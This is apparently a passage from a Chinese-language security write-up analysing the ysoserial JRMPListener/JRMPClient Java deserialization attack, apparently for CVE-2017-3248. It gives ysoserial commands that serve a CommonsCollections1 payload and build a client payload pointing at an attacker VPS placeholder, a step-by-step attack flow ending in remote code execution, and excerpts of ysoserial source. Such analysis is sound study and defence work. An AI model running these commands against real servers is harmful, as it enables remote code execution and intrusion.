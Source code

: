```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/cve-2017-3248'
java -jar ysoserial.jar JRMPClient 'vpsIP:PORT' > vulrServer
```

### 攻击流程

1.  攻击者使用 vps 启用 ysoserial.exploit.JRMPListener，设置需要需要执行的命令、端口和利用的模块，生成 payload1
2.  攻击者本地使用 payloads.JRMPClient 生成 payload2，设置 vps 的 ip 与端口，生成 payload2
3.  攻击者将 payload2 发送至存在漏洞的目标服务器，目标服务器进行反序列化
4.  目标服务器反序列化过程中会与 exploit.JRMPListener 进行通信（vps）
5.  vps 会将 payload1 发送至目标漏洞服务器
6.  漏洞服务器会根据 exploit/JRMPListener 设计的通信处理流程，进一步反序列化 payload1
7.  在对 payload1 反序列化的过程中，会触发 RCE

### exploit.JRMPListener

首先从其 main 函数开始分析，第一步是构造 payload

```bash
final Object payloadObject = Utils.makePayloadObject(args[ 1 ], args[ 2 ]);
```

进入该函数，关键两句代码是

```bash
final ObjectPayload payload = payloadClass.newInstance();
payloadObject = payload.getObject(payloadArg);
```

[![](assets/1701612165-bf3a0e8a1505b024750d606da9031632.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810225217-80246d52-378d-1.png)  
第二部，启动监听  
构建了一个 JRMPListener 对象，查看其构造函数

```bash
public JRMPListener (int port, String className, URL classpathUrl) throws IOException {
    this.port = port;
    this.payloadObject = makeDummyObject(className);
    this.classpathUrl = classpathUrl;
    this.ss = ServerSocketFactory.getDefault().createServerSocket(this.port);
}
```
